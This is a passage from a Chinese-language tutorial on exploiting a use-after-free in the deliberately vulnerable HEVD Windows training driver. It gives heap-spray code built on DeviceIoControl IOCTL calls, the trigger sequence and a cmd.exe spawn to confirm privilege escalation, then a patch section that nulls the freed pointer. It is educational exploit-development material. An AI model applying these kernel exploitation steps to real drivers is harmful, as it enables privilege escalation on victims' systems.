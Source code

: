 接下来我们进行堆喷射
```
for (int i = 0; i < 5000; i++)
{
    // 调用 AllocateFakeObject() 对象
    DeviceIoControl(hDevice, 0x22201F, fakeG_UseAfterFree, 0x60, NULL, 0, &recvBuf, NULL);
}
```
你可能会疑惑上面的IO控制码是如何得到的，这是通过逆向分析`IrpDeviceIoCtlHandler`函数得到的，我们通过`DeviceIoControl`函数实现对驱动中函数的调用，下面原理相同
```
// 调用 UseUaFObject() 函数
DeviceIoControl(hDevice, 0x222013, NULL, NULL, NULL, 0, &recvBuf, NULL);
// 调用 FreeUaFObject() 函数
DeviceIoControl(hDevice, 0x22201B, NULL, NULL, NULL, 0, &recvBuf, NULL);
```
如果你不清楚DeviceIoControl函数的话可以参考[官方文档](https://docs.microsoft.com/zh-cn/windows/desktop/api/ioapiset/nf-ioapiset-deviceiocontrol)

```
BOOL DeviceIoControl(
  HANDLE       hDevice,
  DWORD        dwIoControlCode,
  LPVOID       lpInBuffer,
  DWORD        nInBufferSize,
  LPVOID       lpOutBuffer,
  DWORD        nOutBufferSize,
  LPDWORD      lpBytesReturned,
  LPOVERLAPPED lpOverlapped
);
```
最后我们需要一个函数来调用 cmd 窗口检验我们是否提权成功

```
static VOID CreateCmd()
{
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_SHOW;
    WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
    BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
    if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}
```

## 0x03：补丁思考
对于 `UseAfterFree`, 漏洞利用是在 `free` 掉了对象之后再次对它的引用，如果我们增加一个条件，判断对象是否为空，如果为空则不调用，那么就可以避免 `UseAfterFree` 的发生，而在`FreeUaFObject()`函数中指明了安全的措施，我们只需要把`g_UseAfterFreeObject`置为`NULL`
```
#ifdef SECURE
            // Secure Note: This is secure because the developer is setting
            // 'g_UseAfterFreeObject' to NULL once the Pool chunk is being freed
            ExFreePoolWithTag((PVOID)g_UseAfterFreeObject, (ULONG)POOL_TAG);
 
            g_UseAfterFreeObject = NULL;
#else
            // Vulnerability Note: This is a vanilla Use After Free vulnerability
            // because the developer is not setting 'g_UseAfterFreeObject' to NULL.
            // Hence, g_UseAfterFreeObject still holds the reference to stale pointer
            // (dangling pointer)
            ExFreePoolWithTag((PVOID)g_UseAfterFreeObject, (ULONG)POOL_TAG);
```
下面是在`UseUaFObject()`函数中的修复方案：
